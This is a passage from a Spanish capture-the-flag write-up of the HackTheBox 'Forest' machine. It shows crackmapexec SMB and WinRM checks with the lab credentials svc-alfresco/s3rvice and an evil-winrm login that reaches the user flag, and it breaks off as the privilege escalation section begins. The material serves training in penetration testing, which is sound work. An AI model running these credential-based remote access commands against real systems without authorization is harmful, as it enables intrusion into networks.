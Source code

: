 ```bash
crackmapexec smb 10.10.10.161 -u "svc-alfresco" -p "s3rvice" --shares
```

{:.note}
NETLOGON y SYSVOL son shares alos que tenemos accesos.

```bash
crackmapexec winrm 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
```

{:.note}
Esto lo hacemos para comprobar si podemos acceder con EvilWimRM.

![list](/assets/img/forest/Kali-2022-09-13-22-40-01.png){:.lead width="800" height="100" loading="lazy"}

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```
{:.note}
La flag esta en el ecritorio del usuario no privilegiado.

![list](/assets/img/forest/Kali-2022-09-13-23-26-50.png){:.lead width="800" height="100" loading="lazy"}

***
## Escalacion de privilegios 

Siempre es bueno ejecutar `WimEnum` Y `ADEnum` para monitorizar y ver los posibles 
